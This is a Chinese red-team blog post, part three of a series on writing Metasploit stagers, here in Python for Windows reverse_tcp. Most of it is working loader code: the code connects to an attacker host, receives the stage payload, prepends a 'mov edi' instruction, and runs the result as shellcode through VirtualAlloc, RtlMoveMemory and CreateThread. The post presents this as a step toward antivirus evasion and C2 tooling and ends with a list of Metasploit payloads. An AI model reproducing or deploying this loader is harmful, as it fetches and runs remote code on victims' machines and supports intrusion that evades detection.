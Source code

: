 ```yaml
---
title: msf stagers开发不完全指北(三)
date: 2020-06-28 13:43:00
tags:
- msf
- 红队
- 工具
categories:
- 开发
---
```


# 采用 Python 开发stagers

<!--more-->

之前的文章中我们讲到了如何使用 c 以及 golang 开发 stagers，这篇文章我将着眼于 python，探讨一下如何使用 python 实现相同的功能，也就是msf的 stagers。

## 环境

- OS: Windows 10
- Python: Python 3.7.7 (tags/v3.7.7:d7c567b08f, Mar 10 2020, 10:41:24) [MSC v.1900 64 bit (AMD64)] on win32

## 前情提要

这篇文章将是 windows reverse_tcp 相关的最后一节，让我们回忆一下之前写的文章中的流程原理，把 socket 文件描述符放入 edi 是为了传递给后面的 stages，让 stages 能够复用这个连接，所以我们有了 `mov edi, socketfd` 这一步。我们还需要取到tcp包的前四个字节，这四个字节是代表着后续 stages payload 的长度大小，获取到这个大小后，我们需要读取出指定大小的 tcp 包，然后就是把它当作 shellcode 看待，分配可读可写可执行内存，然后塞进去开始跑。

大致上流程理清楚了，我们开始用 Python 代码进行实现

## 实现细节

### 创建 tcp 连接

```python
address = ('192.168.174.136', 5555)
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(address)
```

创建 tcp 连接没有什么好说的，不过这里还是需要注意的点是**把你的 payload 与 python 对应起来，比如32位payload 使用 32位 python，这点是比较重要的**

### 获取stages

```python
# 获取后续payload大小
payload_size = struct.unpack("<I", bytearray(s.recv(4)))[0]
# 设置flag接收全部数据
payload = s.recv(payload_size, socket.MSG_WAITALL)
```

这里是读取了头四个 byte 作为后续的 stages 接收长度，这里需要注意的点是 `socket.MSG_WAITALL`，这个 flag 表示从 socket 连接读取指定长度的数据包为止，不然可能造成 recv 不完全的情况，recv 默认是有长度限制的，或者自己用 for 来实现也可以。

### mov edi, socketfd

接下来就是把 socket 文件描述符放到 edi 里面去了

```python
# socket 文件描述符，为了edi调用，原理请查看 https://akkuman.cnblogs.com/p/12859091.html
socket_fd = struct.pack('<I', s.fileno())

# mov edi, socket_fd
operation = b'\xbf' + socket_fd

# 组装完整的payload
payload_with_edicall = operation + payload
```

socket 对象提供一个 fileno 方法来供我们获取到 socket 的文件描述符，获取到之后我们使用 struct 的 pack 方法给它按照小端做成一个4 byte的，构造出 `mov edi, socketfd` 对应的机器码，然后和我们之前获取到的 stages 进行拼接组装成一个完整的 payload

### 执行 stages

接下来就是像跑 shellcode 一样的活儿了

```python
shellcode = bytearray(payload_with_edicall)
# 设置VirtualAlloc返回类型为ctypes.c_uint64
ctypes.windll.kernel32.VirtualAlloc.restype = ctypes.c_uint64
# 申请内存
ptr = ctypes.windll.kernel32.VirtualAlloc(
    ctypes.c_int(0),
    ctypes.c_int(len(shellcode)),
    ctypes.c_int(0x3000),
    ctypes.c_int(0x40)
)

# 放入shellcode
buf = (ctypes.c_char * len(shellcode)).from_buffer(shellcode)
ctypes.windll.kernel32.RtlMoveMemory(
    ctypes.c_uint64(ptr),
    buf,
    ctypes.c_int(len(shellcode))
)
# 创建一个线程从shellcode防止位置首地址开始执行
handle = ctypes.windll.kernel32.CreateThread(
    ctypes.c_int(0),
    ctypes.c_int(0),
    ctypes.c_uint64(ptr),
    ctypes.c_int(0),
    ctypes.c_int(0),
    ctypes.pointer(ctypes.c_int(0))
)

# 等待上面创建的线程运行完
ctypes.windll.kernel32.WaitForSingleObject(ctypes.c_int(handle),ctypes.c_int(-1))
```

这里的 `ctypes.windll.kernel32.VirtualAlloc.restype = ctypes.c_uint64` 是必要的，至少在我这里的环境是这样，需要指定一个返回值的类型。然后我们通过 `VirtualAlloc` 申请一块可读可写可执行的内存，然后把我们的 payload 放到这块内存区域里面去，新开辟一个线程从这块内存的起始地址开始运行。



当然，其实实现执行 shellcode 的方式多种多样，这里采用你自己喜欢的一种方式即可。



## 结果截图

![enter description here](https://raw.githubusercontent.com/akkuman/pic/master/pic/2021/8/0001d74664291231760baa1db6a86dbf..png)

![enter description here](https://raw.githubusercontent.com/akkuman/pic/master/pic/2021/8/ac61f533cd546a89c922694cff428e7e..png)

可以看到能够成功上线执行命令

## 告一段落

这三篇我以 windows 的 reverse_tcp 的 payload 为例，以三个不同的语言视角进行了具体的实现，具体功效可能需要看个人自行发挥了。



接下来我会慢慢抽时间继续把这个 stagers 开发不完全指北系列继续下去，但是可能之后如果精力有限的话不会给出多个语言的实现，我会尽量把具体的原理细节说清楚，交由大家自行实现，下面开始写的话，可能会写 msf reverse_http 相关的，毕竟这个是 cs 中的主力，缺点除了需要每次心跳时才能返回数据，不够及时之外，其实还是一个很不错的东西，也会穿插着提到一些如何使用这些东西扩展 C2，使我们的免杀更具灵活性。



其实另一方面来说，面对杀软如果对网络有实时监控的话，这种直接传回 stages 的文件特征比较明显，我也会在我研读源码的过程中把一些成果丢出来，权当给大家抛砖引玉。

比如 msf 中现有的 windows x64 的 payload 有这些

```bash
msf5 exploit(multi/handler) > set payload windows/x64/
set payload windows/x64/exec                            set payload windows/x64/meterpreter_bind_named_pipe     set payload windows/x64/shell/reverse_tcp_uuid
set payload windows/x64/loadlibrary                     set payload windows/x64/meterpreter_bind_tcp            set payload windows/x64/shell_bind_tcp
set payload windows/x64/messagebox                      set payload windows/x64/meterpreter_reverse_http        set payload windows/x64/shell_reverse_tcp
set payload windows/x64/meterpreter/bind_ipv6_tcp       set payload windows/x64/meterpreter_reverse_https       set payload windows/x64/vncinject/bind_ipv6_tcp
set payload windows/x64/meterpreter/bind_ipv6_tcp_uuid  set payload windows/x64/meterpreter_reverse_ipv6_tcp    set payload windows/x64/vncinject/bind_ipv6_tcp_uuid
set payload windows/x64/meterpreter/bind_named_pipe     set payload windows/x64/meterpreter_reverse_tcp         set payload windows/x64/vncinject/bind_named_pipe
set payload windows/x64/meterpreter/bind_tcp            set payload windows/x64/pingback_reverse_tcp            set payload windows/x64/vncinject/bind_tcp
set payload windows/x64/meterpreter/bind_tcp_rc4        set payload windows/x64/powershell_bind_tcp             set payload windows/x64/vncinject/bind_tcp_rc4
set payload windows/x64/meterpreter/bind_tcp_uuid       set payload windows/x64/powershell_reverse_tcp          set payload windows/x64/vncinject/bind_tcp_uuid
set payload windows/x64/meterpreter/reverse_http        set payload windows/x64/shell/bind_ipv6_tcp             set payload windows/x64/vncinject/reverse_http
set payload windows/x64/meterpreter/reverse_https       set payload windows/x64/shell/bind_ipv6_tcp_uuid        set payload windows/x64/vncinject/reverse_https
set payload windows/x64/meterpreter/reverse_named_pipe  set payload windows/x64/shell/bind_named_pipe           set payload windows/x64/vncinject/reverse_tcp
set payload windows/x64/meterpreter/reverse_tcp         set payload windows/x64/shell/bind_tcp                  set payload windows/x64/vncinject/reverse_tcp_rc4
set payload windows/x64/meterpreter/reverse_tcp_rc4     set payload windows/x64/shell/bind_tcp_rc4              set payload windows/x64/vncinject/reverse_tcp_uuid
set payload windows/x64/meterpreter/reverse_tcp_uuid    set payload windows/x64/shell/bind_tcp_uuid             set payload windows/x64/vncinject/reverse_winhttp
set payload windows/x64/meterpreter/reverse_winhttp     set payload windows/x64/shell/reverse_tcp               set payload windows/x64/vncinject/reverse_winhttps
set payload windows/x64/meterpreter/reverse_winhttps    set payload windows/x64/shell/reverse_tcp_rc4
```

我觉得其实是可以挑出一些自己感兴趣的进行研究